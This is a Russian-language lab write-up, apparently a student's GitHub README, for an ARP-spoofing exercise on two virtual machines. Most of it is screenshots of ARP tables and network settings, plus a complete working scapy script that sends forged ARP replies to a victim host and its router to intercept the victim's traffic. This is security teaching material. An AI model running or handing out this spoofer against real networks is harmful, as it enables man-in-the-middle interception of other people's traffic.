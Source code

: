 # Lab6
## Лабораторная работа - ARP-spoofer
### 1. Поднять в одной сети две виртуальные машины: машину атакующего и машину жертвы. Требований по машинам, как рекомендация - сделать одну из машин (атакующего) kali.
#### Машина атакующего kali:
![2023-02-23_14-38-31](https://user-images.githubusercontent.com/122459067/220903959-66b20d22-f8e4-402e-87d4-81b785ba3190.png)
#### Машина жертвы:
![2023-02-23_16-27-02](https://user-images.githubusercontent.com/122459067/220926638-869a1f33-11d3-42a1-86ca-a3755a9d9cc2.png)
### 2. Исследовать ARP-таблицы и конфигурацию сети на обеих машинах, узнать адрес роутера.
![2023-02-23_17-11-42](https://user-images.githubusercontent.com/122459067/220933394-6257d7da-0598-400c-8d5e-75844f889cac.png)
![2023-02-23_17-16-54](https://user-images.githubusercontent.com/122459067/220933425-b0c8064a-5d80-4995-a9c7-b32768f374b2.png)
![2023-02-23_17-21-42](https://user-images.githubusercontent.com/122459067/220935524-c7d85635-35c3-4f7d-a4b8-d7070e346a2a.png)
![2023-02-23_17-26-26](https://user-images.githubusercontent.com/122459067/220935550-77e30121-7760-4d0f-a8a5-60fd2276cfa1.png)
### 3. Необходимо подредактировать код arp_spoof.py (файл есть в материалах к занятию) таким образом, чтобы весь трафик машины-жертвы шел через машинку атакующего. На машине атакующего стоит проставить ip forwarding, чтобы на второй машине не пропало соединение с интернетом.
 #!/usr/bin/env python
import scapy.all as scapy
import time
ATTACKED_HOST_IP = '192.168.45.131'
 # ATTACKED_HOST_MAC = '00:0C:29:2F:7F:BE'
ROUTER_IP = '192.168.45.2'
 #print(packet.show())
 #print(packet.summary())
def get_mac_addr(ip):
    ''' Get mac address by ip '''
    arp_req = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst='ff:ff:ff:ff:ff:ff')
    arp_req_broadcast = broadcast/arp_req
    resp_list = scapy.srp(arp_req_broadcast, timeout=1, verbose=False)[0]

    return resp_list[0][1].hwsrc


def spoof(target_ip, spoof_ip):
    target_mac_addr = get_mac_addr(target_ip)
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac_addr,
        psrc=spoof_ip)
    scapy.send(packet)

while True:
    spoof(ATTACKED_HOST_IP,ROUTER_IP)
    spoof(ROUTER_IP,ATTACKED_HOST_IP)
    time.sleep(2)
![2023-02-24_14-33-48](https://user-images.githubusercontent.com/122459067/221172136-39090dd4-ba5b-46a7-8e0e-fa9af32b83b9.png)

### 4. Запустить написанный скрипт на машине жертвы и исследовать arp-таблицу на машине-жертве.
![2023-02-24_14-23-25](https://user-images.githubusercontent.com/122459067/221172194-931bd109-ac06-42ba-9afe-1232d05f9f11.png)

### 5. Результатом выполнения домашнего задания должны стать три файла:
Доработанный файл с кодом arp_spoof.py.

Скриншот arp-таблицы на машине-жертве во время работы скрипта.
![2023-02-24_14-24-09](https://user-images.githubusercontent.com/122459067/221172342-e3720356-f480-4130-bc1e-2a16652f311a.png)

Вывод команд route -n, ifconfig eth0 на машине атакующего.
![2023-02-24_14-38-23](https://user-images.githubusercontent.com/122459067/221172395-67e1743a-7fdf-4d64-9f7f-2d8e1216876a.png)
![2023-02-24_14-39-10](https://user-images.githubusercontent.com/122459067/221172432-1e0e4e63-4752-4811-a038-52960b3d9c8d.png)

### 6. Advanced* (необязательное задание): написать функцию, восстанавливающую arp-таблицу на машине-жертвы после завершения атаки.

